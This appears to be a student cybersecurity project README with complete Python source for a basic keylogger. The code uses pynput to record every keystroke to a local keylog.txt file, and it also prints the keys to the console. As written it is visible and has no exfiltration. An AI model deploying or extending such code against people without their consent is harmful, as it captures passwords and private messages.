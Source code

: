 # PRODIGY_CS_04
This project involves the development of a basic keylogger program using Python. The keylogger records and logs keystrokes, saving them to a file for analysis. Utilizing the pynput library, the program captures both alphanumeric and special key inputs, storing them in a text file. 

from pynput import keyboard

# Function to handle key press events
def on_press(key):
    try:
        # Print the pressed key (for debugging/monitoring purposes)
        print(f'Alphanumeric key pressed: {key.char}')
        # Open the log file in append mode
        with open("keylog.txt", 'a') as log_file:
            # Write the character to the log file
            log_file.write(f'{key.char}')
    except AttributeError:
        # Handle special keys (e.g., space, enter, shift)
        print(f'Special key pressed: {key}')
        with open("keylog.txt", 'a') as log_file:
            # Write the special key to the log file
            log_file.write(f'[{key}]')

# Function to handle key release events
def on_release(key):
    # Stop listener if the 'Esc' key is released
    if key == keyboard.Key.esc:
        return False

if __name__ == "__main__":
    # Setup the listener for key press and release events
    with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
        # Start the listener and keep it running
        listener.join()
